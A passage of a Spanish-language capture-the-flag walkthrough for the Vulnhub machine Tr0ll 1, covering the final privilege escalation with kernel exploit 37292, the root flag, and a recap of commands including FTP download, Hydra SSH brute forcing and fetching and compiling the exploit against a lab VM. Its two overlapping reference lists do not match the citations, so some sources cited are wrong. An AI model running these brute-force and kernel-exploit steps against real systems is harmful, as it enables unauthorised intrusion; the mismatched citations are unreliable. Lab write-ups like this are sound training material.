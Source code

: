 Indica kernel vulnerable (e.g., 3.13.0). Usando `searchsploit` encontraste el exploit ID **37292** (CVE relacionado). Lo copias a la VM, compilas y ejecutas:

```bash
gcc 37292.c -o exploit
./exploit
id
```

Con éxito, ya estás como **root**. ([InfoSec Write-ups][3])

---

### 🎉 8. Flag de root

Como root:

```bash
cd /root
cat proof.txt
```

Obtienes la flag, por ejemplo `702a8c18d29c6f3ca0d99ef5712bfbdc`, completando el boot2root. ([InfoSec Write-ups][3])

---

### 🧭 Resumen del flujo

1. Netdiscover → IP objetivo
2. Nmap → FTP y HTTP `/secret`
3. FTP → descargas `lol.pcap`
4. Wireshark/tcpdump → ruta web oculta
5. Web → descarga `roflmao`, identifica ruta 0x0856BF
6. Web en 0x0856BF → obtienes listas de usuarios/contraseña
7. Hydra → credenciales SSH
8. SSH → shell como overflow
9. searchsploit → exploit 37292
10. gcc + exploit → root
11. `cat /root/proof.txt` → flag

---

### ✅ Ejemplo de comandos clave

```bash
# FTP
ftp 192.168.56.115
get lol.pcap

# Análisis de pcap
sudo apt install wireshark
wireshark lol.pcap

# Strings en roflmao
file roflmao
strings roflmao

# Hydra SSH
hydra -L which_one_lol.txt -p Pass.txt ssh://192.168.56.115

# Escalada a root
searchsploit linux kernel 3.13.0 privilege
searchsploit -m 37292
wget http://…/37292.c
gcc 37292.c -o exploit
./exploit

```

[1]: https://github.com/projectdiscovery/naabu "GitHub - projectdiscovery/naabu: A fast port scanner written in go with a focus on reliability and simplicity. Designed to be used in combination with other tools for attack surface discovery in bug bounties and pentests"
[2]: https://docs.projectdiscovery.io/tools/naabu/overview "Naabu Overview - ProjectDiscovery Documentation"
[3]: https://nmap.org/ncat/ "Ncat - Netcat for the 21st Century"
[4]: https://man.openbsd.org/nc "nc(1) - OpenBSD manual pages"
[5]: https://docs.projectdiscovery.io/tools/naabu/install "Installing Naabu - ProjectDiscovery Documentation"
[6]: https://docs.projectdiscovery.io/tools/naabu/usage "Naabu Usage - ProjectDiscovery Documentation"
[7]: https://askubuntu.com/questions/346869/what-are-the-differences-between-netcat-traditional-and-netcat-openbsd "What are the differences between netcat-traditional and netcat-openbsd? - Ask Ubuntu"
[1]: https://mohamedaezzat.github.io/posts/troll1/?utm_source=chatgpt.com "Tr0ll 1 Vulnhub Walkthrough - Mohamed Ezzat"
[2]: https://medium.com/%40hackermentor/vulnhub-troll-1-walkthrough-39b655bc70f2?utm_source=chatgpt.com "Vulnhub: Troll 1 — Walkthrough - Medium"
[3]: https://infosecwriteups.com/vulnhub-tr0ll-1-writeup-oscp-prep-by-dollarboysushil-657cf3453ba2?utm_source=chatgpt.com "Vulnhub: Tr0ll 1 Writeup (OSCP PREP) [by dollarboysushil]"
[4]: https://www.infosecinstitute.com/resources/penetration-testing/vulnhub-machines-walkthrough-series-tr0ll-1/?utm_source=chatgpt.com "Vulnhub machines walkthrough series — Tr0ll: 1 - Infosec"